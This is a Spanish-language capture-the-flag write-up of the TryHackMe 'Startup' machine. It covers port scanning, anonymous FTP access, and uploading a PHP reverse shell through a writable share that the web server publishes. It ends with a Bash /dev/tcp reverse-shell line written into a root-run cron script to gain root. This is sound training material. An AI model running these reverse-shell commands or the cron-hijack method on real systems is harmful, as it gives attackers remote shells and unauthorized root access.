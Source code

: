 Hola gente!
Este es mi primer "write-up", espero qu elo disfruten.
(Little note for a friend, Esqy thank you for the motivation into making this write-up, I hope I can make more in the future.)
Bueno empezemos!
Primero hacemos un rapido scan con Rustscan, un Nmap mas rapido creado por Bee-san.
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos 3 servicios en esta maquina.
Primero veremos el ftp.
Al parecer este servicio este FTP dejo abierto el login anonimo.
```
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```
Encontramos 2 archivos en esta maquina.
En notice.txt para ser que estan jugando Among Us en la oficina.
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
En el important.jpg parece ser que algunos miembros del equipo se estaban divirtiendo con unos memes.
![meme](https://github.com/Believer1/THM-writeups/blob/main/startup/images/important.jpg)

Ahora emepzemos a buscar directorios en el website
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.199.203
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/23 12:49:11 Starting gobuster
===============================================================
/files (Status: 301)
```

![files](https://github.com/Believer1/THM-writeups/blob/main/startup/images/files.png)


Hmmmm... que raro. Son los mismos archivos que en el FTP. Seran que estan conectados?

Para probar esto subire una "reverse shell" en PHP hecha por PentestMonkey
```
ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Cambiamos el ip por el nuestro del "network" de TryHackMe.
```
ftp> put reverse.php 
local: reverse.php remote: reverse.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```
Y lo ponemos en el FTP.
```
nc -nlvp 1234
listening on [any] 1234 ...
```
Empezamos un "listener" con NetCat.

![reverse](https://github.com/Believer1/THM-writeups/blob/main/startup/images/reverse.png)
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Ahi esta! Conseguimos un "shell".

Usando Linpeas hay unos archivos que me resaltan.
Encontramos un archivo llamado recipe.txt
```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <redactado>
```
Encontramos nuestro primera respuesta.
Ahora pasamos el segundo archivo que es un .pcapng usando el servicio de FTP.
```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
Vemos en wireshark un trafico interesante que revela detalles interesantes.
```www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: <redactado>
```
Cambiamos de usuario y cogemos el segundo flag.
Usando Linpeas encontramos otro archivo /etc/print.sh.
Re-escribimos el archivo con un "reverse shell" en Bash
```bash -i >& /dev/tcp/IP/8888 0>&1```
Esperamos un tiempo ya que esto es una accion programada por el usuario root.
```
root@startup:~# whoami
whoami
root
root@startup:~# 
```
Conseguimos root!
Agarramos el flag en /root/root.txt y completamos la maquina!

Gracias por leer mi primer write-up espero que les ha gustado.
